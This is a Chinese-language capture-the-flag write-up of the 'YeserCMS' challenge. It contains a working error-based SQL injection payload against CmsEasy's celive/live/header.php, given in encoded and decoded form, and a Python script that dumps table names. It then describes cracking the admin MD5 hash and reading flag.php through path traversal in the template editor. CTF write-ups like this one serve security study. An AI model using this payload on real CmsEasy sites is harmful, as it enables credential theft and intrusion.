









# YeserCMS
## 题目内容
新的CMS系统，帮忙测测是否有漏洞。
## tips
flag在网站根目录下的flag.php中。
## 思路
点开链接，是一个挺复杂的页面：  
  
首先，我们需要寻找 CMS 系统的类型，只有知道 CMS 的系统类型，才能对症下药：  
  
如图，应该是 CmsEasy 系统。接着，应该去查一下，以前此系统被挖掘出的漏洞：
```
//发送url:

http://localhost/Cmseasy/celive/live/header.php

postdata:
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx%2527%252C%2528UpdateXML%25281%252CCONCAT%25280x5b%252Cmid%2528%2528SELECT%252f%252a%252a%252fGROUP_CONCAT%2528concat%2528username%252C%2527%257C%2527%252Cpassword%2529%2529%2520from%2520cmseasy_user%2529%252C1%252C32%2529%252C0x5d%2529%252C1%2529%2529%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%2529--%2520</q></xjxquery>
```
post 里的数据有些部分进行二次 url 编码：解码后如下：  
```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from cmseasy_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)--</q></xjxquery>
```
我们对 post 的内容进行一些修改，将 cmseasy 改为 yesercms， 然后注入：  
  
***
按理说，这块应该先爆表的：  
```python
import requests
url = 'http://f151c8f8ba994d4d8d22e16eaa29ea8194d0cbcca401493e.changame.ichunqiu.com/celive/live/header.php'
for i in range(1,999,31):
    postdata = {
    'xajax':'Postdata',
    'xajaxargs[0]':"<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),%s,32),0x5d),1)),NULL,NULL,NULL,NULL, NULL,NULL)-- </q></xjxquery>" %str(i)
}
    r = requests.post(url,data=postdata)
    print (r.content[22:53])
```
从众多表名中发现有用的表名：  
  
然后再爆密码。  
***
更改截取位置，继续获取完整密码：  
  
手动拼接一下：  
ff512d4240cbbdeafada404677ccbe61  
猜测一波 md5 加密，对其进行 md5 解密：  
  
成功了，接着我们用 admin 的账户登录，直接去找模板编辑：  
  
并且，根据这个页面，猜测后台是直接读取了文件，用 burp 截一下看看：  
  
应该就是了，尝试找 flag.php，最终在“爷爷”级目录下找到了文件 ../../flag.php ：  
  

## 考察知识点
1. 查看 CMS 系统的类型  
2. 查找对应 CMS 系统的漏洞信息，并加以利用  
3. md5 加密 password  
